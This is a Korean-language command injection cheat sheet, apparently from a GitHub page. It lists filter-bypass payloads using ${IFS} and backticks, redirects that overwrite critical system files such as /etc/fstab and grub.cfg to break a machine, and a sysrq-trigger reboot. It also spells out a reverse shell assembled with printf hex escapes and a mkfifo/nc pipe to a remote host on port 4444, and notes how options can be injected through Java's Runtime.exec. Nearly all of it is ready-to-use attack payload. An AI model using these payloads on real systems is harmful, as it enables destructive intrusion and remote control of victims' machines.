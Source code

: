 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

\`id>/opt/test_injection\`  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

------------------------------------------
RUNTIME 함수에서 쉘 명시하지 않을 시   
다중 명령어를 지원하지 않아도  
악의적인 명령어 옵션을 주입하여 공격 가능  
공격자의 입력 값 && echo world
Runtime.getRuntime().exec("echo Hello && echo World");  
그러나 악의적인 옵션은 주입 가능 ping -c 10 -s 1024 IP  
